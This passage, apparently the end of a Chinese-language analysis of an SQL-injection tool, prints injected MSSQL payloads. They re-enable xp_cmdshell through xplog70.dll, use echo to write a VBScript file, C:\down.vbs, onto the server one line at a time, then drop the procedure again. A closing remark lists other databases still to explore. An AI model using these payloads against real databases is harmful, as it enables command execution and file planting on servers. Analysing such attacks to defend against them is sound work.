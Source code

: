 ;exec master.dbo.xp_cmdshell &amp;apos;ecHo Owner=Administrator &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo Personalized=5 &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo PersonalizedName=My Documents &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

总结来说就是调用xp_cmdshell执行echo 一句句的写入文件。

这次分析算是告一段落，不过还有mysql,access,oracle,db2,infomix……….等待探索。